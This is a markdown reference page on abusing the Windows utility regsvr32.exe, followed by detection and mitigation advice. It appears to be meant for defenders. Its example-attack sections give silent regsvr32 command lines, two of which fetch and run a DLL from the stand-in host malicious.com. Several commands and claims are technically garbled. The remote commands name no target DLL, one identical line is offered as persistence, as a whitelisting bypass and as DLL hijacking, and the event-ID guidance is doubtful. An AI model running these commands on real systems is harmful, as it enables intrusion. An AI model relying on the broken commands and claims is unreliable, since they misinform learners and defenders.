 # regsvr32.exe
## What is it?
*```regsvr32.exe``` is a Windows utility that registers and unregisters dynamic link library (DLL) files and ActiveX controls (.ocx files) in the system registry. It is a part of the Windows operating system and is often used by administrators and developers to register libraries or controls that are required by other applications.*

*While legitimate for registering DLLs, it can also be exploited by attackers to run malicious code hidden in a DLL file, bypassing security defenses, and evading detection.*

## Legitimate Usage
- **Registering DLL Files** → Used to register DLL files that are required by applications.
- **Managing ActiveX Controls** → Registers and unregisters ActiveX controls on the system.
- **Application Dependency Management** → Ensures that the required libraries and controls are available for applications to function properly.
- **Updating DLLs in System or Applications** → Facilitates updates and fixes for applications that rely on specific versions of DLLs.

## How to abuse it
- **Executing Malicious Code** → Attackers can use ```regsvr32.exe``` to load and execute malicious DLL files, bypassing security software or application whitelisting tools.
- **Bypassing Application Control Policies** → Because ```regsvr32.exe``` is a trusted, system utility, attackers can use it to execute payloads without triggering security defenses.
- **Persistence via DLL Registration** → Malicious DLLs can be registered via ```regsvr32.exe``` to persistently maintain access to a compromised system.
- **Bypassing Script Execution Restrictions** → Attackers can load malicious scripts through DLLs and execute them without triggering restrictions in place for traditional scripting engines (e.g., PowerShell).

## Example attacks
### 1. Running Malicious Code via DLL
*Attackers can use ```regsvr32.exe``` to execute malicious code by loading a DLL that contains the payload.*

**Run Malicious DLL with regsvr32**

```
regsvr32.exe /s /u /i:http://malicious.com/malicious.dll
```

**Effect:**
- **```/s```** → Runs silently (no user prompts).
- **```/u```** → Unregisters the DLL (can be used for cleanup or after execution).
- **```/i:http://malicious.com/malicious.dll```** → Specifies a URL to a malicious DLL that is executed on the system.
- The DLL is downloaded and executed, providing the attacker with the ability to run arbitrary code.

### 2. Persistence via DLL Registration
*Attackers can register a malicious DLL that runs on system startup, allowing them to maintain persistent access to the compromised machine.*

**Register Malicious DLL for Persistence**

```
regsvr32.exe /s /i:malicious.dll
```

**Effect:**
- **```/i:malicious.dll```** → Registers the malicious DLL.
- The DLL is executed as part of the registration process, and it can remain persistent by running each time the system reboots.

### 3. Bypassing Application Whitelisting
*Because ```regsvr32.exe``` is a trusted Windows binary, it may bypass application whitelisting or endpoint protection software that would otherwise block the execution of malicious files.*

**Bypass Whitelisting with regsvr32**

```
regsvr32.exe /s /u /i:malicious.dll
```

**Effect:**
- The use of a trusted system tool like ```regsvr32.exe``` allows attackers to execute malicious code even if direct execution of the file is blocked by whitelisting policies.
- The attack is executed silently, without triggering prompts or alerts.

### 4. Remote Execution of Malicious DLLs
*Attackers can use ```regsvr32.exe``` to download and execute malicious DLLs from remote servers.*

**Download and Execute Malicious DLL**

```
regsvr32.exe /s /u /i:http://malicious.com/malicious.dll
```

**Effect:**
- The malicious DLL is downloaded from a remote server and executed silently on the compromised machine.
- Attackers can use this technique to exfiltrate data, install malware, or establish remote control over the system.

### 5. DLL Hijacking with regsvr32
*An attacker can create a malicious DLL with the same name as a legitimate DLL and use ```regsvr32.exe``` to register it, exploiting DLL hijacking vulnerabilities.*

**Exploit DLL Hijacking via regsvr32**

```
regsvr32.exe /s /i:malicious.dll
```

**Effect:**
- The attacker places a malicious DLL with the same name as a legitimate DLL in a trusted directory, ensuring that it is executed when the legitimate DLL is loaded.
- This allows for exploitation of DLL hijacking vulnerabilities to execute arbitrary code on the system.

# Detection & Mitigation
## Detection Methods
**Monitor regsvr32.exe Executions**
- **Event ID 4688 (Process Creation)** → Look for the execution of ```regsvr32.exe``` with unusual command-line arguments (e.g., downloading DLLs from suspicious URLs).
- **Network Traffic Analysis** → Monitor for connections to suspicious domains or IP addresses from which DLLs are being downloaded.
- **File Integrity Checks** → Detect changes in the system registry or unexpected DLL registrations.

**Suspicious DLL Registration**
- **Event ID 4697 (Service Installation)** → Detect the installation of DLL files via ```regsvr32.exe``` that may be associated with suspicious or unknown software.
- **Look for unusual DLL files** in trusted system directories or other sensitive locations.

## Mitigation Strategies
- **Use Application Control** → Implement Application Whitelisting (AppLocker or WDAC) to prevent unauthorized execution of ```regsvr32.exe``` or the registration of untrusted DLLs.
- **Monitor Windows Event Logs** → Regularly review the Event Viewer for suspicious ```regsvr32.exe``` activity, particularly in conjunction with DLL registration events.
- **Restrict User Privileges** → Limit administrative privileges and prevent unauthorized users from executing ```regsvr32.exe``` or registering DLL files.
- **Block Untrusted Network Traffic** → Block the download of DLL files from untrusted URLs or external servers via firewall or network controls.
- **Limit DLL Registration** → Restrict DLL registration and execution capabilities to only trusted applications and users.
